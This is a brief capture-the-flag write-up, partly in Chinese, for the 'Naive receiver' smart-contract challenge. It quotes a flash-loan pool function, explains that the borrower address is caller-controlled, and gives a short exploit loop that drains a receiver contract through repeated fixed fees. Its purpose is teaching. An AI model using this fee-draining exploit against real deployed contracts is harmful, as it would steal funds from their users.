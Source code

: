 ```yaml
---
title: Naive receiver
---
```


# Description
There’s a pool with 1000 ETH in balance, offering flash loans. It has a fixed fee of 1 ETH.

A user has deployed a contract with 10 ETH in balance. It’s capable of interacting with the pool and receiving flash loans of ETH.

Take all ETH out of the user’s contract. If possible, in a single transaction.

# Code
在`Pool::flashLoan()`中，`borrower`是可控的，所以直接传入`Receiver`地址，并且调用`10`次就可以。
```solidity
function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant {
        uint256 balanceBefore = address(this).balance;
        if (balanceBefore < borrowAmount) revert NotEnoughETHInPool();
        if (!borrower.isContract()) revert BorrowerMustBeADeployedContract();

        // Transfer ETH and handle control to receiver
        borrower.functionCallWithValue(abi.encodeWithSignature("receiveEther(uint256)", FIXED_FEE), borrowAmount);

        if (address(this).balance < balanceBefore + FIXED_FEE) {
            revert FlashLoanHasNotBeenPaidBack();
        }
    }
```
# Solution
题目要求把Receiver中的账户资金耗尽，并且在一个交易中，所以直接就调用10次flashloan就好了
# Exp
```
for (uint256 i = 0; i < 10; i++){
            naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), address(flashLoanReceiver).balance);
        }
```

